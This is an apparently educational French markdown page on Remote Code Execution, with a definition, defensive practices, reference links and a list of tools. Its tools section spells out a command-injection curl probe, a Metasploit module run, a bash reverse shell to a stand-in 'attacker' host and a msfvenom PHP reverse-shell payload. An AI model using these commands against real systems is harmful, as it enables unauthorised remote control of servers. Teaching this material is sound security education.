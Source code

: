 ```yaml
---
title: Remote Code Execution
date: '2025-07-15'
draft: false
---
```


# 💻 Remote Code Execution (RCE)

## Qu'est-ce que la Remote Code Execution ?

La Remote Code Execution (RCE) permet d'exécuter du code arbitraire à distance sur un serveur ou une machine cible, souvent via une faille logicielle.

## 🎯 Objectifs pédagogiques

- Comprendre le concept de RCE
- Savoir identifier et exploiter une faille RCE

## 📋 Exemples de scénarios et commandes

- Exploiter une injection de commande pour obtenir un shell
- Utiliser un payload pour exécuter du code à distance
- Prendre le contrôle d'un serveur via une faille RCE

## 🛡️ Bonnes pratiques

- Mettre à jour régulièrement les logiciels
- Restreindre les droits d'exécution
- Surveiller les logs d'exécution de commandes

## 📚 Ressources utiles

- [OWASP - RCE](https://owasp.org/www-community/attacks/Remote_Code_Execution)
- [HackTricks - RCE](https://book.hacktricks.xyz/pentesting-web/rce)

## 🛠️ Outils et commandes les plus utilisés

- **curl** : Tester l'injection de commandes
  ```bash
  curl -X POST -d 'cmd=whoami' http://site-vulnerable/exec.php
  ```
- **Burp Suite** : Automatiser et manipuler les requêtes
- **Metasploit** : Exploiter automatiquement des failles RCE
  ```bash
  msfconsole
  use exploit/multi/http/php_cgi_arg_injection
  set RHOSTS site-vulnerable
  run
  ```
- **ncat / socat** : Reverse shell
  ```bash
  ncat -lvnp 4444
  bash -i >& /dev/tcp/attacker/4444 0>&1
  ```
- **msfvenom** : Générer des payloads personnalisés
  ```bash
  msfvenom -p php/reverse_php LHOST=attacker LPORT=4444 -f raw > shell.php
  ```

---

_Dernière mise à jour : 15 juillet 2025_
